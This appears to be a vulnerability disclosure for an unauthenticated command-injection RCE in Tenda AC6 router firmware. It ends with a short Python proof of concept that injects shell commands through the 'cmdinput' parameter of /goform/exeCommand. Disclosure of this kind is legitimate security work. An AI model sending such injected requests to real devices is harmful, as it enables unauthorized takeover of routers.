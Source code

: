 # CVE-XXXX-YYYY: Remote Code Execution Vulnerability in Tenda AC6 Firmware

## Vulnerability Overview
There is a **Remote Code Execution (RCE)** vulnerability in the **Tenda AC6 firmware version 15.03.05.16_multi**. The vulnerability exists in the **exeCommand** function of the firmware. Specifically, the **cmdinput** parameter, which is passed via HTTP, allows attackers to inject and execute arbitrary system commands on the device. This vulnerability can lead to **remote command execution** without proper authentication.

The issue arises from improper handling of user-supplied input, where an attacker can exploit the **cmdinput** parameter to execute arbitrary commands on the system. For example, an attacker could use this to list directories, read sensitive files, or execute malicious commands remotely.

## Affected Versions
- Tenda AC6 Firmware version 15.03.05.16_multi

## Impact
- Remote Code Execution (RCE)
- Unauthorized access to the system
- Potential for information disclosure or system compromise

## Proof of Concept (PoC)

```python
import requests

host_port = "http://192.168.101.50:8008"
url = "/goform/exeCommand"

data = {
    "cmdinput": "ls; ls > /execcommand.txt;"  # Example command injection
}

response = requests.post(host_port + url, data=data)

# Print the response code and content
print("Response status code: ", response.status_code)
print("Response content: ", response.text)
